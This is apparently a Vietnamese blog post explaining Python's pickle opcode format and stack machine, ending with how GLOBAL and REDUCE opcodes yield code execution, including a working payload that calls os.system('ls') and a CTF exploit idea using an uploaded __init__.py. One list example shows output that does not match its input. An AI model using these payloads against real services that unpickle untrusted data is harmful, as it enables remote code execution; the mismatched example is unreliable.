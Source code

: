 # Cách mà pickle deserialize dữ liệu

## Bối cảnh của bài viết này

Mình luôn thắc mắc về cách hoạt động của pickle từ khi biết về sự tồn tại của nó. Tuy nhiên mãi cho tới khi bị ăn hành bởi một bài [CTF](../../2022/hitconCTF_2022/S0undCl0ud/) thì mình mới đi tìm hiểu 😁.

## Serialize và deserialize

Todo 😉

## Pickle format
Quá trình serialize dữ liệu (số nguyên, list, dictionary, ...) của pickle sẽ cho ra một dãy byte. Nên khi deserialize ta sẽ xem xét một dãy byte. Các byte liên quan khi gộp lại sẽ thành opcode, một opcode sẽ thực hiện một thao tác. Như vậy ta sẽ có dãy các opcode. Dãy opcode đó khi cần deserialize thì sau khi đi qua một machine gọi là pickle machine (PM) sẽ xây dựng được thành một object Python phức tạp.

PM có hai trường dữ liệu, `stack` và `memo`:
- `memo`: nơi giúp lưu lại một số kết quả để tối ưu cho quá trình.
- `stack`: đúng như tên gọi của nó, nó sử dụng cấu trúc dữ liệu stack. Ta sẽ tập trung vào đây hơn là `memo`.

Một vài opcode sẽ có tác dụng đẩy object vào `stack` hoặc lấy object ra khỏi `stack`. Cho tới khi gặp opcode cho lệnh `STOP` được thực thi. Những gì còn lại trong `stack` sau khi thực thi lệnh `STOP` sẽ là output của quá trình deserialize.

## Quá trình deserialize
Opcode sẽ gồm hai phần, phần đầu là một byte thể hiện loại thao tác, heo sau đó là các argument. Mỗi argument kết thúc bằng ký tự `\n` (new line). Dấu chấm `.` sẽ thể hiện cho `STOP`.

Ví dụ: để deserialize được ra string `'abcdefgh2808'`. Ta có byte thể hiện loại thao tác là `S` (thể hiện đẩy vào `stack` một string) và argument là `'abcdefgh2808'`. Và kết thúc opcode bằng `\n` rồi kết thúc quá trình deserialize bằng dấu chấm `.`. Ta được: `S'abcdefgh2808'\n.`

```
>>> import pickle
>>> pickle.loads("S'abcdefgh2808'\n.")
'abcdefgh2808'
```

Trong `stack` sẽ có như sau:
```
abcdefgh2808
```

:v Ví dụ này hơi đơn giản nên `stack` cũng đơn giản nốt. Nó bỏ string kia vô `stack` rồi gặp `.` nên `STOP` luôn. Ta sẽ thử ví dụ sau cho dễ hiểu hơn.

Ví dụ: Để xây dựng list `[8, 2, 1]`, sẽ có ký tự `(` để thể hiện bắt đầu list và `l` để thể hiện kết thúc list. Ta sẽ có chuỗi opcode như sau:

```
>>> pickle.loads("(I1\nI2\nI3\nl.")
[8, 2, 1]
```

Khi xét đoạn `(I1\nI2\nI3\n`, `stack` của ta như sau:
```
1
2
8
(
```

Sau đó khi gặp ký tự `l` PM sẽ lấy hết những thứ sau `(` bỏ vào list và ta được `stack` như sau:
```
[8, 2, 1]
```

Dấu `(` cũng bị đẩy ra khỏi stack.

Nested list cũng được xây dựng tương tự như thế: 
```
>>> pickle.loads(b"(S'abcdefgh2808'\n(I1\nI2\nS'3'\nll.")                                                                                                                                                          ['abcdefgh2808', [1, 2, '3']]
```

Ngoài ra, pickle cũng có nhiều ký tự đại diện cho các [lệnh](https://github.com/python/cpython/blob/main/Lib/pickle.py) khác:

![Oops](./images/some_opcodes.jpg)

Mỗi ký tự sẽ có một tên khác: Ví dụ `(` có tên là `MARK`.

## Pickletools
Trong Python có module `pickletools` với hàm `genops` sẽ giúp con người đọc opcode dễ hơn.
```
>>> import pickletools
>>>
>>> opcode = pickletools.genops(b"cos\nsystem\nS'ls'\n\x85R.")
>>>
>>> for x in opcode:
...     print(x[0].name, x[1])
...
GLOBAL os system
STRING ls
TUPLE1 None
REDUCE None
STOP None
```

Đôi lúc ta sẽ bắt gặp lập trình viên sử dụng `pickletools` để filter trước khi deserialize bằng cách giới hạn các lệnh và nội dung của lệnh.

## Vấn đề của pickle
Khi deserialize nó thực thi một số lệnh, và trong các lệnh đó có một vài lệnh không an toàn để sử dụng. Ví dụ như:
```python
REDUCE         = b'R'   # apply callable to argtuple, both on stack
GLOBAL         = b'c'   # push self.find_class(modname, name); 2 string args
STACK_GLOBAL   = b'\x93'  # same as GLOBAL but using names on the stacks
TUPLE1         = b'\x85'  # build 1-tuple from stack top
```

Cụ thể:
- `REDUCE` được dùng để gọi callable. Callable là những gì có thể được gọi, điển hình là hàm. Chú ý là cả callable và argument tuple của callable đó đều được lấy từ `stack`. Do đó attacker có thể sử dụng nó để thực thi code. Ở ví dụ phía dưới, mình sẽ lấy callable là `os.system` và tuple là `('ls',)`. Thì khi gọi được callable ta sẽ thực thi được lệnh `ls` trên shell.
- `GLOBAL` và `STACK_GLOBAL` được dùng để gọi `self.find_class()` có tác dụng tìm thuộc tính của một object và trả về nó. Ta có thể lợi dụng nó để tìm thuộc tính thành viên là một hàm để hỗ trợ cho `REDUCE`.

    ```python
    def find_class(self, module, name):
        # Subclasses may override this.
        sys.audit('pickle.find_class', module, name)
        if self.proto < 3 and self.fix_imports:
            if (module, name) in _compat_pickle.NAME_MAPPING:
                module, name = _compat_pickle.NAME_MAPPING[(module, name)]
            elif module in _compat_pickle.IMPORT_MAPPING:
                module = _compat_pickle.IMPORT_MAPPING[module]
        __import__(module, level=0)
        if self.proto >= 4:
            return _getattribute(sys.modules[module], name)[0] # Là getattr(sys.modules[module], name) nhưng có thêm vài tính năng khác
        else:
            return getattr(sys.modules[module], name)
    ```

    Ta thấy rằng `find_class(module, name)` sẽ import một module rồi trả về `getattr(sys.modules[module], name)`. Ta có thể sử dụng nó để `import os` rồi lấy hàm `system` để thực hiện RCE. `module` sẽ là `os` và `name` sẽ là `system`.

    ```
    >>> import pickle                                                                                                       >>> import sys                                                                                                          >>>                                                                                                                     >>> __import__('os', level=0)                                                                                           <module 'os' from '/usr/lib/python3.8/os.py'>                                                                           >>> getattr(sys.modules['os'], 'system')                                                                                <built-in function system> 
    >>>                                                                                             >>> pickle.loads(b"cos\nsystem\n.")    # ở đây sử dụng GLOBAL để demo, có thể sử dụng STACK_GLOBAL cũng được, nhưng sẽ cần thay đổi byte                                                                                 <built-in function system>
    ```

    `system` chính là callable mà ta hướng tới.
- Ta đã có callable rồi, bây giờ ta cần argument tuple nữa. Ta sẽ dùng `\x85` để tạo tuple `('ls',)` như sau:
    ```
    >>> pickle.loads(b"S'ls'\n\x85.")                                                                                       ('ls',)
    ```

- Kết hợp mọi thứ lại ta có:
    ```
    >>> pickle.loads(b"cos\nsystem\nS'ls'\n\x85R.") 
    bin   dev  home  ...
    ```

Vậy là ta đã thực thi được code, là điều mà mọi hacker đều muốn 😁

Ngoài ra, mình cũng từng gặp một concept exploit ([bài phân tích ở đây nè](../../2022/hitconCTF_2022/S0undCl0ud/) 😆) như sau:
- Upload file `__init__.py` vào một thư mục.
- Sau đó lợi dụng `STACK_GLOBAL` hoặc `GLOBAL` để `__import__()` thư mục chứa file `__init__.py` vào thế là thực thi được code. 🤯

## Tham khảo
- https://adrianstoll.com/post/python-in-a-pickle-an-explanation-of-the-python-pickle-format-and-security-problems/
- https://github.com/python/cpython/blob/main/Lib/pickle.py
